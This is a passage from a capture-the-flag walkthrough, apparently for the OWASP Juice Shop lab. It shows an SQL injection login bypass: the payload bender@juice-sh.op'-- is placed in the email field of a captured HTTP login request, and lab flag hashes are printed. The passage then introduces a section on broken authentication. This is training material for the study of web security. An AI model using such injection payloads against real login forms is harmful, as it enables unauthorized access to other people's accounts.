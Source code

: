 ![](./2020-10-19_23-20.png)

`32a5e0f21372bcc1000a6088b93b458e41f0e02a`

2. **Question #2: Log into the Bender account!**

Similar to what we did in Question #1, we will now log into Bender's account! Capture the login request again, but this time we will put: bender@juice-sh.op'-- as the email. Now, forward that to the server!

But why don't we put the 1=1? Well, as the email address is valid (which will return true), we do not need to force it to be true.

![](https://i.imgur.com/Rznz31B.png)

```
POST /rest/user/login HTTP/1.1
Host: 10.10.128.32
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.128.32/
Content-Type: application/json
Content-Length: 32
Connection: close
Cookie: io=bni6lh3BmkqhE4QmAAAA; language=en; cookieconsent_status=dismiss; continueCode=l5wOojDeg73OnzQ6aB4Z8ERMvyJr0XYAq9pw5xYVWmkj2P1lXLoNbK7vRbkE

{"email":"bender@juice-sh.op'--","password":"avc"}
```

`fb364762a3c102b2db932069c0e6b78e738d4066`

## Who broke my lock?!

![](https://i.imgur.com/OM71q2D.png)

In this task, we will look at exploiting authentication through different flaws. When talking about flaws within authentication, we include mechanisms that are vulnerable to manipulation. These mechanisms, listed below, are what we will be exploiting.

* Weak passwords in high privileged accounts
* Forgotten password pages

More information: [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)
